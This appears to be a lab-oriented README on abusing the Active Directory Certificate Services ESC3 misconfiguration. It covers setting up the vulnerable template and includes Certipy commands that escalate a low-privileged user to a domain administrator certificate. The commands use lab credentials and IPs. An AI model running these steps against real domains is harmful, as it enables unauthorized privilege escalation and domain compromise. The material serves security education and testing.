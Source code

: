 # 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 3 (ESC3) Abuse Guide

## Reference

- [Blog for ADCE-ESC3](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc3/)

- [Youtube Video](https://www.youtube.com/watch?v=sMTwPU-FTuk&ab_channel=HichamElAaouad)


##  What is ESC3?

ESC3 (Escalation Scenario 3) is a post-exploitation technique in Active Directory Certificate Services (ADCS) where an attacker can abuse a misconfigured **Certificate Template** with **Certificate Request Agent** (Enrollment Agent) permissions. This misconfiguration allows a **low-privileged domain user** to request a certificate **on behalf of another user**, including high-privileged accounts like **Domain Admins**.

---

##  Setting Up the ESC3 Misconfiguration (Lab Environment)

To reproduce or test this misconfiguration in a lab environment:

### 1. Create a New Certificate Template

- Open **Certificate Authority** → Manage → Certificate Templates.
- Duplicate an existing template (e.g., "User") and name it something like **ESC3**.

### 2. Modify the Following Settings:

####  **Extended Key Usage (EKU)**:
- Add or enable the EKU:  
  `Certificate Request Agent (1.3.6.1.4.1.311.20.2.1)`
    
    <img src="Imgs/image1.png" alt="Error loading image">

>  **Why this EKU?**  
> The **Certificate Request Agent EKU** allows a user to **request certificates on behalf of another identity**. This is the core of ESC3 — if misused, it can be leveraged by a non-privileged user to impersonate a Domain Admin.

####  **Permissions** (Security Tab):
- Give **Domain Users** or **Authenticated Users**:
  - **Enroll** permission.
<img src="Imgs/image2.png" alt="Error loading image">

####  Disable Manager Approval:
- Go to the **Issuance Requirements** tab.
- Make sure **"Manager approval"** is **unchecked**.

    <img src="Imgs/image3.png" alt="Error loading image">

### 3. Publish the Template
- Go back to the CA, right-click **Certificate Templates** → **New** → **Certificate Template to Issue** → Select **ESC3**.

---


##  Key Conditions for ESC3 Exploitation

### 1️⃣ Certificate Request Agent EKU is Enabled

- The certificate template includes the **Extended Key Usage (EKU)**:  
  `Certificate Request Agent (1.3.6.1.4.1.311.20.2.1)`

> **ESC3 Condition #1:** EKU includes **Certificate Request Agent**

---

### 2️⃣ Enroll Permissions Granted to Low-Privilege Users

- **Domain Users**, **Authenticated Users**, or any unprivileged group has **Enroll** rights on the vulnerable template.

> **ESC3 Condition #2:** Low-privileged users can enroll using the template

---

### 3️⃣ Manager Approval is Not Required

- The template setting **"Manager approval"** is disabled, meaning certificates can be issued without human oversight.

> **ESC3 Condition #3:** No manager approval required for enrollment

---

### 4️⃣ Certificate Template is Published and Enabled

- The template is issued by the CA and actively available for use.

> **ESC3 Condition #4:** Vulnerable certificate template is **enabled and published**

<img src="Imgs/image4.png" alt="Error loading image">

---


## Enumerating ESC3 with Certipy

```bash
certipy-ad find -u jack -p complex1@ -dc-ip 192.168.129.140 -vulnerable -enabled
```

- Look for a template like `Vulnerable-ESC2` that is vulnerable and enabled.

---

##  Exploit ESC3 in Two Stages

---

### 🔹 Stage 1: Request a Certificate for the Attacker

```bash
certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template Vulnerable-ESC3 -target furious.local
```

- This creates a `.pfx` file (e.g., `jack.pfx`) that can be used to **sign future certs**.

---

### 🔹 Stage 2: Request Certificate on Behalf of Domain Admin

```bash
certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template USER -target furious.local -on-behalf-of 'furious\administrator' -pfx jack.pfx
```

- This uses `jack.pfx` to request a new cert **on behalf of a Domain Admin**

### Step 3: Authenticate with the Certificate

```bash
certipy-ad auth -pfx administrator.pfx
```
